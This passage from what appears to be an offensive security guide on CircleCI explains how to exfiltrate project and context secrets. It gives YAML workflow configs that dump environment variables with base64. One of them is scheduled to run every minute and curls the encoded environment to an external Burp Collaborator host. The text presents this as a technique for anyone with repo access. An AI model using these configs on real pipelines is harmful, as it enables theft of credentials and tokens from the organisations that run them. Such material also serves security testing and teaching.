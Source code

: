 ```yaml
      - exfil-env
```

#### Exfiltrate Context Secrets

You need to **specify the context name** (this will also exfiltrate the project secrets):

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env:
          context: Test-Context
```

If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **modify a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
      - exfil-env:
          context: Test-Context
```
